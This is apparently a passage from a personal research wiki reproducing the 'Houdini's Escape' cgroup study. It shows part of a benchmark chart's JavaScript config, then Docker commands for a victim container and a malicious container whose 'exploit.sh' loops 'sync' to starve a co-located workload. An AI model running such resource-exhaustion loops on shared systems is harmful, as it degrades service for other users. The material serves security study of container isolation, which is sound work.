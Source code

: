         type: 'value',
        boundaryGap: [0, 0.01]
    },
    yAxis: {
        type: 'category',
        data: ['seq_read', 'seq_write', 'rand_read', 'rand_write', 'shell script', 'excel throughput', 'file copy', 'process creation']
    },
    series: [
        {
            color: '#2f4554',
            label: {
                show: 'true',
                position: 'right',
                fontSize: '14'
            },
            barWidth: '35',
            type: 'bar',
            data: [58.89, 5.36, 66.98, 61.41, 98.64, 96.22, 92.10, 96.86]
        }
    ]
};
;
if (option && typeof option === "object") {
    myChart.setOption(option, true);
}
</script>

#### Resource-Freeing Attack

2 个 container run 在 同一个 cpu core，因此会 compete for cpu resource (cpu share is same as default 1024)

victim container - file copy

```shell
$ cat /apt/file-cp.sh 
#!/bin/bash
curl https://www.cc98.org > 0.txt
while true
do
	cp 0.txt 1.txt
done
$ docker run --cpuset-cpus="0" -v /home/zty/dev/tianyu-ubuntu/apt:/apt -it --rm tianyu/ubuntu:v2.1	# v2.1 installs curl
```

malicious container - sync shell & sysbench

```shell
$ cat exploit.sh 
#!/bin/bash
while true
do
	sync
done
$ docker run --cpuset-cpus="0" -v /home/zty/dev/cfile:/cfile -it --rm tianyu/ubuntu:v1 # v1 installs sysbench
```


[^note1]:  cgroup man page: http://man7.org/linux/man-pages/man7/cgroups.7.html.
[^note2]: Gao, Xing, et al. "Houdini’s Escape: Breaking the Resource Rein of Linux Control Groups." (2019).
[^note3]: The 26th ACM Conference on Computer and Communications Security in **London, United Kingdom from November 11 to November 15, 2019**.
[^note4]: Docker installation and configuration: https://tianyuzhou.top/wiki/docker-install/.
[^note6]: Docker container cpu period constaint: https://docs.docker.com/engine/reference/run/#cpu-period-constraint.